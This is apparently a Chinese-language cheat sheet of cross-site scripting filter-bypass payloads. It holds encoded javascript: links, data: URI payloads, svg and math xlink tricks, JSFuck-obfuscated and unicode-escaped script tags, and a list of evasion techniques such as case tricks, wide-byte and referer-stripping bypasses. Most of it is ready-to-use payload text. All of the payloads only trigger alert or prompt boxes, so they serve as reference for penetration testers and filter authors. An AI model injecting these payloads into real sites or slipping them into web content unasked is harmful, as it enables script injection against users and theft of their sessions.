 ```
<a href= 'javascript:alert&#40;&#39;123&#39;&#41; '>Hello</a>

<a href= "j&#97;vascript:alert&#40; '123' &#41;">Hello</a >

<a  href=  "j&#97;vascript:alert&#0000040;  '123' &#41;">Hello</a >

<a  href=  "j&#97vascript:alert&#0000040'123' &#41">Hello</a >

<a href=data:text/html;%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2829%29%3C%2F%73%63%72%69%70%74%3E>M 

<a href=j&#x61;v&#97script&#x3A;&#97lert(13)>M

```


> eval 认识\x十六进制，八进制，Unicode码

* CSS表达式

* 转义字符

* URL 中有可自定义的控制的前端编码

* 宽字节绕过

* 头部base绕过

* Referer为空时才可以访问(有一些界面为了避免是从别的地方跳转过来的，就需要referer为空)
> `HTTPS -> HTTP`
> `<meta name="referrer" content="never" >`

* 注意返回的type类型
> 返回的type类型是xml和html时，才可能执行

* 阻止浏览器302跳转

* 头部X-XSS-Protection

* 大小写绕过

* 标签绕过

* 闭合标签


#### 哪些标签(本节直接摘自P神博客，原文链接在文末)
* a 标签的xlink
> 
```
<svg><a xlink:href="javascript:alert(1)"><rect width="1000" height="1000" fill="white"/>不要点我</a></svg> 
<math><a xlink:href=javascript:alert(1)>M
```

* script 标签
> 
```
<script>alert((+[][+[]]+[])[++[[]][+[]]]+([![]]+[])[++[++[[]][+[]]][+[]]]+([!![]]+[])[++[++[++[[]][+[]]][+[]]][+[]]]+([!![]]+[])[++[[]][+[]]]+([!![]]+[])[+[]])</script> //想玩这个，可以在这里转换你的编码 http://www.jsfuck.com/ 

<script firefox>alert(1)</script>  //其实我们并不需要一个规范的script标签 

<script>~'\u0061' ;  \u0074\u0068\u0072\u006F\u0077 ~ \u0074\u0068\u0069\u0073.  \u0061\u006C\u0065\u0072\u0074(~'\u0061')</script> // 

<script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script>//在这里我们依然可以使用那些编码 

<script>prompt(-[])</script> //不只是alert。prompt和confirm也可以弹窗 
```
